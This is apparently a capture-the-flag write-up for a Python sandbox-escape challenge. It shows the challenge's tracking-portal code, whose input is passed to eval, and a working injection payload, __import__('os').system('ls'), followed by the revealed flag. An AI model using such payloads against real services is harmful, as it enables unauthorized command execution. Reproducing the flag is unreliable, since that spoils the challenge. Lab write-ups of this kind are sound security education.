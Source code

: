 # Feb. 1 - Balloons
> Starting off with a bang (pop)! I ordered a bunch of Valentine's Day-themed balloons, and I'm so excited about them! Here's the portal I use to track my order.

> Look for "valentine.txt."

## About the Challenge
We were given a python code and we need to bypass from the sandbox. The python code will be look like this:
```python
from balloon_tracking_lookup import get_status

print "Welcome to your balloon order-tracking portal! Enter your tracking number here.\n"
tracking_number = input(">>> ")

try:
  print "Getting status for order #" + str(int(tracking_number)) + "..."
except:
  print "Invalid tracking number!"

print get_status(int(tracking_number))
```

## How to Solve?
When I input `1+1` it turns out that the output is 2 which means it's possible that the get_status function used the `eval` function, and then I tried to escape the sandbox using a payload like this and it worked
```
__import__('os').system('ls')
```

And finally after being able to escape the sandbox, read the valentine.txt file and the flag appears

![flag](images/flag.png)

```
valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}
```
